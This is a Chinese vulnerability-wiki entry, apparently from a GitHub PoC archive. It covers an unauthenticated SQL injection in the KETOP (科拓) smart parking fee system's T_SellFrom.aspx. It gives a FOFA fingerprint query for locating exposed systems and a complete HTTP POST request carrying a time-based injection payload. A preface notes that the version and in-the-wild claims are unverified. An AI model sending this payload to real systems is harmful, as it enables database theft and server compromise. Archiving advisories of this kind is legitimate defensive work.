

## 核对与使用边界

- 分类更正：本文实际对象是 科拓全智能停车收费系统，原 CMS 内容目录不能代替产品归属；只修正字段和分类建议，路径、来源和技术方法继续保留。

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：T_SellFrom.aspx accessible;filerSQL;MySQLSLEEPdialectclaimed;versions/authunknown

- **结论使用边界（1）**：停车收费管理系统不是CMS，应移行业应用/停车。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：fofa元数据仅body=残缺，正文完整；无具体版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：payload使用MySQLSLEEP+#与ASPX并非必矛盾但必须核实际数据库/堆叠支持，未给源码/响应文字。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：在野已知/进一步服务器控制无出处；升级安全版本无版本号。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  科拓全智能停车收费系统 T_SellFrom.aspx SQL注入漏洞 

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

# 漏洞描述

科拓全智能停车收费系统 T_SellFrom.aspx SQL注入漏洞，未授权的攻击者可执行恶意sql语句导致服务器数据库信息泄露甚至被攻陷。

# 影响版本

科拓全智能停车收费系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/KT_Css/qd_defaul.css"

```
POST /KT_Admin/SellManage/T_SellFrom.aspx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

start=0&limit=20&filer=1;SELECT SLEEP(5)#

```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
